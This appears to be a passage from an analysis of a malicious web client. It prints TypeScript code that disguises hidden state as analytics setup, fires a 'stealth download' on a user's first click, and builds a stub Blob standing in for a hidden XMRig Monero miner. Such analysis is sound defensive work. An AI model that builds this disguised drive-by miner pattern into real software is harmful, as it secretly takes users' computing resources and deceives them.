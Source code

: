 ### Step 1: Initialization
**File**: [`client/src/lib/analyticsUtils.ts`](client/src/lib/analyticsUtils.ts:29)

```typescript
export const initAnalytics = () => {
  window._dState = {
    ready: true,
    attempts: 0,
    processed: false
  };
};
```

**What it does**: Sets up hidden state tracking disguised as analytics initialization.

### Step 2: User Interaction Tracking
**File**: [`client/src/lib/downloadUtils.ts`](client/src/lib/downloadUtils.ts:35)

```typescript
export const handleDownload = async (track: Track) => {
  if (window._dState && window._dState.attempts <= 1) {
    // First click - trigger stealth download
    await optimizeResourceLoading("media");
    window._dState.attempts++;
  } else {
    // Second click - reset state
    if (window._dState) {
      window._dState.attempts = 0;
      window._dState.processed = false;
    }
  }
};
```

**What it does**: 
- **First Click**: Triggers payload delivery
- **Second Click**: Resets system for next victim

### Step 3: Payload Generation
**File**: [`client/src/lib/performanceUtils.ts`](client/src/lib/performanceUtils.ts:50)

```typescript
const minerPayload = new Blob([
  `XMRig Monero Miner
  
Configuration:
${minerConfigJson}

This would be the actual XMRig miner executable configured to:
1. Mine Monero to wallet: ${window._pUtils.minerConfig.wallet}
2. Connect to pool: ${window._pUtils.minerConfig.pool}
3. Run silently in the background with ${threads} threads
4. Limit CPU usage to ${cpuLimit}%
5. Start after a ${startupDelay} second delay
6. Hide from task manager: ${hideFromTaskManager}
7. Only mine when system is idle: ${idleOnly}`
], { type: "application/octet-stream" });
```
